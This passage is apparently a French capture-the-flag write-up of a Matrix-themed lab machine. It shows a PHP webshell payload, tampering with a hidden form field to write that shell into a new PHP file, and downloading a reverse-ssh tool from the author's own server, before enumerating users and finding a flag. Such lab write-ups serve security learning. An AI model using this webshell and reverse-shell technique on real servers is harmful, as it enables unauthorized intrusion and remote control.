 Sur le script PHP on retrouve le même message avec un formulaire permettant de laisser un message. Si je rentre quelque chose, le texte apparait à la suite du précédent message et on le retrouve aussi dans le fichier `graffiti.txt`.

J'aurais parié que le script fait un `include()` du fichier texte. J'ai donc saisi `<?php system($_GET["cmd"]); ?>` mais le code n'était pas interprété et se retrouvait dans le code HTML de la page.

Par contre, je me suis aperçu que le formulaire dispose d'un champ caché qui spécifie dans quel fichier écrire les données :

```html
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
```

Par conséquent, on peut utiliser les outils de développement du navigateur pour modifier le nom du fichier et cette fois écrire notre shell dans un nouveau fichier PHP. J'obtiens alors mon webshell avec l'utilisateur `www-data`.

Le serveur autorise la connexion sortante sur le port 80, j'utilise mon webshell pour télécharger un reverse-ssh depuis un serveur web python que j'ai lancé :

```console
$ sudo python3 -m http.server 80
[sudo] Mot de passe de root : 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.242.129 - - [20/Nov/2022 09:16:17] "GET /reverse-sshx64 HTTP/1.1" 200 -
```

À la racine du serveur web je trouve une image `.cypher-neo.png` mais elle ne recèle rien d'intéressant (analyse via `exiftool` et `ghex`).

Il y a deux utilisateurs présents sur le système. Aucun ne semble plus privilégié que l'autre :

```
uid=1000(trinity) gid=1000(trinity) groups=1000(trinity),1002(humans)
uid=1001(cypher) gid=1001(cypher) groups=1001(cypher),1002(humans)
```

La recherche des fichiers de `cypher` retourne un flag :

```console
www-data@morpheus:/var/www$ find / -user cypher 2> /dev/null 
/home/cypher
/FLAG.txt
```

Voici le contenu :

> Flag 1!  
> 
> You've gotten onto the system.  Now why has Cypher locked everyone out of it?  
> 
> Can you find a way to get Cypher's password? It seems like he gave it to    
> Agent Smith, so Smith could figure out where to meet him.  
> 
> Also, pull this image from the webserver on port 80 to get a flag.  
> 
> /.cypher-neo.png
